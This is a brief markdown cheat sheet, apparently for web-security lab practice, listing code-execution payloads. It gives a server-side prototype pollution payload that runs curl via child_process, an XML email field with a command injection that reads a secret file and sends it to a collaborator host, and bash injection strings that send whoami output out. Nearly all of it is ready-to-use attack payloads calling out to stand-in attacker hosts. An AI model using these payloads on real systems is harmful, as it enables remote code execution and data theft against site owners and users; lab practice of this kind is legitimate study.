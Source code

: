 # Code Execution  

>Remote code execution via server-side prototype pollution  

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```  

>XML and OS Command execution  

```xml
<email>user16@exploit-server.net||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||</email>
```  

>BASH os command execution  
  
```bash
email=carlos@exam.net||curl+`whoami`.COLLABORATOR.net||
```  

```
||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||
```
